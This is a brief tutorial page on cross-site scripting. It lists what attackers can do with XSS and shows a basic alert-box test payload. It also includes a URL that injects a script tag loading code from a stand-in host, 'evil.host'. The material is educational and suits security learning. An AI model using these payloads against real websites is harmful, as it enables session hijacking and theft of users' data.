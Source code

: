 # Cross site scripting

XSS allows attackers to inject malicious scripts into a webpage. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages, such as: search and filter functions, error handling, comment functionality, login pages and other forms that process and display user input in HTML responses.

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Basic technique

Put this in a form input field and see if it pops an alert box:

```text
<script>alert("hello");</script>
```

This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database \(e.g. as a comment on a discussion board\).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src=”http://evil.host/evil.js”></script>
```

